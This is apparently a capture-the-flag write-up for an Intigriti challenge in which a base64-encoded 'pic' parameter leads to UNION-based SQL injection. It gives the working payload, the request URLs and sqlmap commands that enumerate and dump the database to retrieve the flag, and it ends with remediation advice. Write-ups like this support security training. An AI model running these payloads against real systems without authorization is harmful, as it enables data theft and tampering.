



\# Intigriti September 2026 — Critter Gallery


\*\*Challenge URL:\*\* https://challenge-0926.challenges.intigriti.io/


\*\*Vulnerable Endpoint:\*\*

https://challenge-0926.challenges.intigriti.io/challenge.php?pic=Zm94


\*\*Tier:\*\* 2


\*\*Vulnerability:\*\* SQL Injection (CWE-89)


\---


\## Overview


The \*\*Critter Gallery\*\* challenge is a PHP application that displays animal information based on the `pic` parameter.


The `pic` parameter is base64-encoded. Although base64 encoding may make the value appear obfuscated, it does not provide security.


The decoded value is used unsafely in a MySQL query, allowing SQL injection.


The vulnerability can be exploited to enumerate databases and tables and read data from the application's database, including the challenge flag.


\---


\## 1. Identify the Injection Point


The application accepts a `pic` parameter:


```text

https://challenge-0926.challenges.intigriti.io/challenge.php?pic=Zm94

```


The value:


```text

Zm94

```


is base64-encoded.


Decoding it:


```bash

echo "Zm94" | base64 -d

```


produces:


```text

fox

```


This indicates that the application decodes the supplied value before processing it.


\---


\## 2. Confirm SQL Injection


A UNION-based SQL injection payload was tested:


```text

' UNION SELECT 1-- -

```


The payload was base64-encoded as:


```text

JyBVTklPTiBTRUxFQ1QgMS0tIC0=

```


The resulting request:


```text

https://challenge-0926.challenges.intigriti.io/challenge.php?pic=JyBVTklPTiBTRUxFQ1QgMS0tIC0=

```


The response reflected `1` in the page output.


This confirms a \*\*one-column UNION-based SQL injection\*\*.


\---


\## 3. Enumerate Databases


The vulnerability can be tested with sqlmap using the base64 encoding tamper script:


```bash

sqlmap -u "https://challenge-0926.challenges.intigriti.io/challenge.php?pic=Zm94" \\

&#x20; --tamper=base64encode --batch --dbs

```


The following databases were identified:


```text

critter\_gallery

information\_schema

performance\_schema

```


The application database of interest is:


```text

critter\_gallery

```


\---


\## 4. Enumerate Tables


The tables in the `critter\_gallery` database were enumerated:


```bash

sqlmap -u "https://challenge-0926.challenges.intigriti.io/challenge.php?pic=Zm94" \\

&#x20; --tamper=base64encode --batch \\

&#x20; -D critter\_gallery --tables

```


The following tables were identified:


```text

animals

secret\_vault

```


The `secret\_vault` table was selected for further testing.


\---


\## 5. Dump the `secret\_vault` Table


The contents of `secret\_vault` were retrieved with:


```bash

sqlmap -u "https://challenge-0926.challenges.intigriti.io/challenge.php?pic=Zm94" \\

&#x20; --tamper=base64encode --batch \\

&#x20; -D critter\_gallery -T secret\_vault --dump

```


The result contained:


```text

id    note

1     INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}

```


\---


\## 6. Flag


```text

INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}

```


\---


\## 7. Impact


The SQL injection is exploitable without authentication.


An attacker can potentially read arbitrary data from databases accessible to the application's database account.


In this challenge, the vulnerability allowed access to the `secret\_vault` table and retrieval of the challenge flag.


Depending on the privileges granted to the database account, SQL injection could potentially allow additional actions such as modification or deletion of database records.


\---


\## 8. Remediation


The application should:


\* Use prepared statements and parameterized SQL queries.

\* Never concatenate user-controlled input directly into SQL queries.

\* Treat base64 encoding only as an encoding mechanism, not as a security control.

\* Validate the `pic` parameter according to the expected input format.

\* Apply least-privilege permissions to the application's database account.

\* Avoid exposing unnecessary database information to the application layer.

\* Consider additional application-layer protections such as appropriate WAF rules.


\---


## 9. Evidence

### Database Enumeration



### Table Enumeration



### Secret Vault Dump




\## References


\* \[Intigriti](https://www.intigriti.com/)

\* \[OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL\_Injection)

\* \[sqlmap](https://sqlmap.org/)


